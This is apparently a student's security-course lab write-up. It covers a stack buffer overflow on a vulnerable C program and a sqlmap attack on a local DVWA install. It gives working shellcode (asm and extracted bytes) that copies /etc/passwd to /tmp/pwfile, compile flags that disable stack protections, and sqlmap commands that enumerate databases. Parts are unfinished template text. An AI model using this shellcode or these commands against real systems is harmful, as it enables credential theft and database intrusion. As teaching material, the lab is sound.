 # Lab #1,22110054, Nguyen Huu Nghi, INSE330380E_01FIE
# Task 1: Software buffer overflow attack

Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

**Stack frame:** <br>
![image](https://github.com/user-attachments/assets/4bc7f91d-1c22-4b16-b8f3-23099c098517)


Compile asm program and C program to executable code <br>

Use command:
``` 
    nasm -g -f elf shell.asm
    ld -m elf-i386 -o shell shell.o
    gcc -g lab1.c -o lab1.out -fno-stack-protector -mpreferred-stack-boundary=2
```
![image](https://github.com/user-attachments/assets/433fbe38-0093-47b8-b6db-6727b69bf308)
Take asembly of file asm
<br>
Use command:
```
for i in $(objdump -d shell.o |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
Kết quả:
`\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80` <br>
![image](https://github.com/user-attachments/assets/4353a203-c772-4cfe-a711-f02a4c350a4e)
<br>
To allow excute code on stack 
Use command
```
gcc -g lab1.c -o lab1.out -fno-stack-protector -mpreferred-stack-boundary=2 -z exestack
```
Create a link between file:
Use command
```
sudo ln -sf /bin/zsh /bin/shell
```
Use gdb for debuging:
Use command:
```
bof$ gdb -q lab1.out
```

![image](https://github.com/user-attachments/assets/5cfcb52f-5106-4f72-973f-33dca0e29522)

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Use this command to Get Available Databases:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs
```
![image](https://github.com/user-attachments/assets/faeda253-54a7-4bfd-ab56-683ab3b8a800)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Use this command get tables, users information
```
 python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" -D dvwa --tables
```
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:




